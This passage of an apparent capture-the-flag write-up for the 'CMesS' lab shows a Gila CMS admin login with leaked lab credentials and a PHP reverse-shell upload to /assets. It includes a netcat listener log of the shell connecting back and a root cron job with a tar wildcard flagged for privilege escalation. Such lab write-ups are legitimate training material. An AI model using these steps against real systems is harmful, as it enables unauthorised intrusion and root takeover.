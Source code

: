 - Added `dev.cmess.thm` to `/etc/hosts`

- On the homepage of `dev.cmess.thm` found credentials for andre - `andre@cmess.thm:KPFTN_f2yxe%`.

```html
<article>
        <h3>support@cmess.thm</h3>
        <p>Your password has been reset. Here: KPFTN_f2yxe% </p>
</article>
```

- Logged on to the login page we found earlier on `cmess.thm`

- After logging in went `/admin` directory looking for a place to upload reverse shell
- Found [this](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload) github page
- On going to http://cmess.thm/admin/fm?f=tmp/ found a page to upload files.
- We can't upload data to `/tmp`, because we have seen in gobuster that it returns status as 301

```console
/tmp                  (Status: 301) [Size: 312] [--> http://cmess.thm/tmp/?url=tmp
```

- So uploaded shell to `/assets` directory.
- Created php reverse shell.
- Upload the file
- Start netcat listener on the chosen port.
- Access file at http://cmess.thm/assets/php-reverse-shell.php.
- Got a reverse shell

```console
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.205.14] 36776
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:53:52 up 35 min,  0 users,  load average: 0.02, 0.01, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (729): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cmess:/$
```

- Stabilize this shell.
- We are now `www-data`, so we need to escalate our privilege to get user flag.
- Uploaded `linpeas.sh`, found a cronjob with root permission, but we need to be have `mandre` access to exploit it.

```console
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
